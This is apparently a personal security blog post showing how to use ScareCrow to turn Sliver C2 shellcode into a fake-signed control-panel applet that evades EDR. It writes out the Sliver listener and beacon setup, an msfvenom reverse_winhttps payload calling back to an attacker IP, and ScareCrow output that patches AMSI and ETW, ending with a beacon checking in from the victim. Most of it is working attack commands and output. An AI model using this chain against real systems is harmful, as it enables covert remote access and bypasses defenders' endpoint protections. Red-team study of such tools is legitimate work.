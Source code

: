 ```yaml
---
layout: post
title: ScareCrow 
subtitle: Using ScareCrow to Side Load Sliver Shell Code
#thumbnail-img: /assets/img/nunchucks.png
tags: [SLIVER]
---
```


# ScareCow
ScareCrow serves as a framework designed for generating payloads that can be sideloaded, rather than injected, into a legitimate Windows process. This sideloading approach allows it to bypass Application Whitelisting controls. After the DLL loader is loaded into memory, it employs a method to eliminate any hooks placed by an EDR (Endpoint Detection and Response) system within the system DLLs running in the process's memory. This technique is effective because EDR hooks are typically applied when a process is initially spawned.

In this short blog post I will generate some some shell code from the Sliver C2 framework. I'll then pass it through ScareCrow to receive a loader, equipped with common EDR evasion tactics. I'll then execute it on a updated windows host to get a call back. Once nice notable tatic that ScareCrow employs AES encryption to secure the raw shellcode. This step is crucial in preventing static detection when a security product scans the generated loader on disk. Notably, Windows Defender is pretty good at detecting shell code
# Demo
I'll start off by configuring my Sliver Sliver server to listen for connections and host the shellcode

Lets create our profile and start the job. This will be our stage 2 payload 
```
sliver > profiles new beacon --mtls 10.10.1.49:443 --evasion -f shellcode --jitter 4 --arch amd64 --os Windows crow
[*] Saved new implant profile (beacon) crow

sliver > mtls --lhost 10.10.1.49 --lport 443
[*] Starting mTLS listener ...
[*] Successfully started job #1
```

Next I'll create a new listener that the initial connection from the victim will come to.
```
sliver > stage-listener --url https://10.10.1.49:8443 --profile crow --prepend-size

[*] Sliver name for profile: CHEMICAL_PINEAPPLE
[*] Job 2 (https) started
```

On kali using `msfvenom` we can create some shell code that ScareCrow will use. Per the Sliver documentation I used `winhttps` as `win_http` does not work at this time.
```
┌──(root㉿kali)-[~/sliver]
└─# msfvenom -p windows/x64/custom/reverse_winhttps LHOST=10.10.1.49 LPORT=8443 LURI=/crow.woff -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 992 bytes
Saved as: shellcode.bin
```

Then I used `ScareCrow` to put generate a control panel applet that will load the loader into memory and execute the shell code.
```
┌──(root㉿kali)-[/opt/ScareCrow]
└─# ./ScareCrow -I /root/sliver/shellcode.bin -domain microsoft.com -Loader control

  _________                           _________
 /   _____/ ____ _____ _______   ____ \_   ___ \_______  ______  _  __
 \_____  \_/ ___\\__  \\_  __ \_/ __ \/    \  \/\_  __ \/  _ \ \/ \/ /
 /        \  \___ / __ \|  | \/\  ___/\     \____|  | \(  <_> )     /
/_______  /\___  >____  /__|    \___  >\______  /|__|   \____/ \/\_/
        \/     \/     \/            \/        \/
                                                        (@Tyl0us)
        “Fear, you must understand is more than a mere obstacle.
        Fear is a TEACHER. the first one you ever had.”

[*] Encrypting Shellcode Using ELZMA Encryption
[+] Shellcode Encrypted
[+] Patched ETW Enabled
[+] Patched AMSI Enabled
[+] Sleep Timer set for 2741 milliseconds
[*] Creating an Embedded Resource File
[+] Created Embedded Resource File With bthprop's Properties
[*] Compiling Payload
[+] Payload Compiled
[*] Signing bthprop.dll With a Fake Cert
[+] Signed File Created
[+] bthprop.cpl File Ready
[!] Sha256 hash of bthprop.cpl: 36dc05d689a2efabff6adb8126bf9b7f6cd0b67878b539b138e8e257b619100c
```

With everything set up I transferred the `.cpl` file over to the victim machine and then executed it

![scarecrow](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/scarecrow.png)

Back on the Sliver Server a new beacon checks in
```
[*] Beacon b14e0ce6 CHEMICAL_PINEAPPLE - 10.10.1.47:55464 (Workstation) - windows/amd64 - Mon, 15 May 2023 22:40:36 MDT

sliver >
```
